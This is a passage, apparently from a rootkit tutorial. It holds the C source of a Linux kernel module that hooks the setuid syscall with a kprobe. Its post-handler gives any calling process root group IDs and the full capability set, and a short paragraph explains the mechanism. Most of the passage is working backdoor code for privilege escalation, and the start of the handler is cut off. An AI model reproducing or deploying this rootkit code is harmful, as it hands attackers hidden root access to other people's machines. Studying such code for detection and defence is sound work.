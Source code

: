       /* gid privesc */
      new_creds->gid.val=_GLOBAL_ROOT_GID;
      new_creds->egid.val=_GLOBAL_ROOT_GID;
      new_creds->sgid.val=_GLOBAL_ROOT_GID;
      new_creds->fsgid.val=_GLOBAL_ROOT_GID;

      /* capabilities privesc */
      new_creds->cap_inheritable=CAP_FULL_SET;
      new_creds->cap_permitted=CAP_FULL_SET;
      new_creds->cap_effective=CAP_FULL_SET;
      new_creds->cap_bset=CAP_FULL_SET;
      commit_creds(new_creds);
  }

  struct kprobe __x64_sys_setuid_hook = {
      .symbol_name = "__x64_sys_setuid",
      .post_handler = __x64_sys_setuid_post_handler,
  };

  static int __init rkin(void)
  {
      printk(KERN_INFO "module loaded\n");
      int registered = register_kprobe(&__x64_sys_setuid_hook);
      if (registered < 0)
      {
          printk(KERN_INFO "failed to register kprobe\n");
      }
      else
      {
          printk(KERN_INFO "hooked\n");
          atomic_inc(&hooked);
      }

      return 0;
  }

  static void __exit rkout(void)
  {
      if (atomic_read(&hooked))
      {
          unregister_kprobe(&__x64_sys_setuid_hook);
          printk(KERN_INFO "unhooked\n");
      }
  }

  module_init(rkin);
  module_exit(rkout);
╚════════════════════════════════════════════════════════════════════════════╝

The code above, initially will register a kprobe to hook the function
"__x64_sys_setuid" (the setuid syscall). In the kprobe it registers it with a
post handler which will be executed just as the hooked function will be about
to return. When the post handler is executed, it'll elevate the callers
privileges by elevating their uid's as well as their gid's and capabilities.

